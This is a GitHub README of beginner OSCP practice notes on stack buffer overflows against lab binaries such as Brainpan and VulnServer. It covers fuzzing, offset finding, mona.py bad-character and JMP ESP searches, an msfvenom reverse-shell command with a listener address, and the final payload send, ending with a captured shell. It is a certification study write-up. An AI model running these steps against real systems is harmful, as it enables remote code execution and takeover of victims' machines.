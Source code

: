 # OSCP-BUFFER-OVERFLOW-PREP
This Repositry has my own practice notes of Buffer overflow Vulnrable Machine in easy,Beginer way.Please make sure to check every file so that it will be easy to understand how buffer overflow work and why you'll be learning => Fuzzing,Crashing,building simple script,finding badchar,using mona.py,genrating shell code.....
and more.

If You have fear of buffer overflow, then i'll say bro just chill it is easy. Make some practice.
you have to follow som steps to get the shell of victim host.
Brainpain,VulnServer,Ftp,Buffer Overflow prep from Tryhack me root by tib3rius sir.....and more comming soon
Be Connected Thank you!!


The very firs step is to getting the crash byte after knowing the host and port,vuln param 
of the server.....

Part 1

    Fuzzing the service parameter and getting the crash byte
    Generating the pattern
    Finding the correct offset where the byte crashes with the help of (EIP)

Part 2

    Finding the bad character with mona.py, and comparing bad character strings with mona.py
    Finding return address (JMP ESP) with mona.py

Part 3

    Setting breakpoint to verify RETURN address is correct or not
    Creating reverse shell with the help of msfvenom
    Adding NOP’s to the script
    Getting shell





1)So for the Any binary we have to fuzz from 100 to Untill crash the program,
   
    To do so first we have to find out which input parameter of the program is vulnrable to buffur overflow (Note this will be given).
    Then find out the crash byte of the program by fuzzing the parameter(Fuzzing just mean to send the payload again and again to crash the program).
 
   

2)Creating offset value. with msf 
     
     > /usr/bin/msf-pattern_create -l 3000
    where 3000 is Crash byte of the program when send Note Down the eip (Make sure to verify once again by restarting the immunity and this time send 'A'*crashbyte and          'B'*4 after the crashing   again you'll be able to see the 42424242 in EIP  )
 
   After getting the crash byte we have to control the intruction pointer
   to do this we'll use the msf venome 

3)Since we've the EIP adress where program crashed we'll genrate offset to get the exact crash byte where prgram crashed.

    /usr/bin/msf-pattern_offset -l 3000 -q 35724134 (where 35724134 value of eip)
    output- [*] Exact match at offset 524 


4)After getting the offset value wee need to perform the overflow with some more thing 
     
     now we have offset=524
     eip="B" * 4 (this will always contain the eip address after crashing the program as 42424242 whic is hex of B )
     shellcode= "C"* 400 (this is the space where the stack in buffer fill with  shell code )

5)Creating the working dir in im-debug
    
     '!mona config -set workingfolder c:\logs\%p' 

 Now next is to finding the bad char with the help of all possible hex

6)To do this we have to create an array with mona.py to compair with out paylod

    !mona bytearray -b '\x00'
    send the payload 

7)Now we have to verify if ther's any badchar....
    
    !mona compare -f C:\logs\brainpan\bytearray.bin -a 005FF910
    if the result is normal then ther's only one badchar  ecept: "/x00"

   Now we have to find the jump esp location 

8) Check if there is any module that is vulnrable and false by os
     !mona modules 
     ther's a module brainpain.exe

9)To get the jump statment have to perform this command
    
    !mona find -s "\xff\xe4" -m baianpan.exe
    this will retun the address of jump eip
    save the jump eip 311712f3 set this eip in payload as
    eip=eip= '\xf3\x12\x17\x31'
   
 Or you can get the jump stack pointer location by using this mathod too
    
    !mona jmp -r esp -cpb "\x00\x8c\xae\xbe\xfb"   #where '\x00...' value is bad char value..
    
    after putting this command immunity will pop a screen where the jump satack pointer location will be written like:
     625011af   ..........here will be module name...........
     
    jumpesp="\xaf\x11\x50\x62"   (this is the  little-endian form)


10)Setting the break point to check does it working or not ('this step is not necessary to perform you can jump to genrating the shell code')
    
     bp 0x311712f3
     to verify the break point is set view>view breakpoint>

11)Now set the  eip to  and try run again the payload 
    
    this will pass the program and jump to our brekpoint now 
    when resume the program it will retrun to shellcode that we given as payld

12)Creating the reverse shell code with the help of the msfvenome
    
    msfvenom -p windows/shell_reverse_tcp LHOST=192.168.43.132 LPORT=1234 -b '\x00' -f c

    where(-b is bad character and -f c is the revershell in c language

13)And add the nops valu (I'm using this because maybe control jump by leaving 8 or 16 bytes after the shell code)
    
    nops='\x90' * 20
    final command to send will be look like ==> s.send('OVERFLOW7 ' + buffer + jumpesp + nops + shellcode +'\r\n')

15)After the sending the payload (make sure to satart nc to listen )it might be the im_debug will pause so we have to tap on play again .....boom we got the shell

C:\Users\Saimson\Downloads>

C:\Users\Saimson\Downloads>whoami
whoami
desktop-hup6j62\saimson 


